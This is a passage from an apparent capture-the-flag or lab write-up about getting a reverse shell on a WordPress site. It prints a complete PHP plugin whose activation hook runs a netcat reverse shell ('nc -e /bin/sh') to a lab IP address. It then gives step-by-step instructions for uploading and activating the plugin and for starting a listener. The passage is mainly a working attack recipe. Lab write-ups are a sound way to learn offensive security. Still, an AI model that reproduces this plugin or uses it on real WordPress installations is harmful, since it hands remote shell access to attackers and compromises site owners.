 ![](images/fugit2/dashboard.png)

***

I tried getting reverse shell by editing the theme but PHP couldn't be updated via WP so I used the custom plugin made by [@DCAU7](https://twitter.com/dcau7)

```php
<?php
  /*
  Plugin name: MyNetcat
  Description: MyNetcat WordPress Plugin
  Author: DCAU
  Author URI: http://www.five86.com
  Version: 1.0
  */

register_activation_hook( __FILE__, 'mynetcat_activation' );
  function mynetcat_activation() {
    system("nc -e /bin/sh 192.168.1.107 4444");
  }
```

Now place this file in a folder named `mynetcat` and then compress it to a zip file.After that go to `plugin -> add new ` on wordpress. Now click on `upload plugin` and then select the zip. Before you activate that plugin make sure you have started your listener i.e `nc -nlvp PORT`. After that just activate the plugin and you'll get the shell.

![](images/fugit2/rev.png)
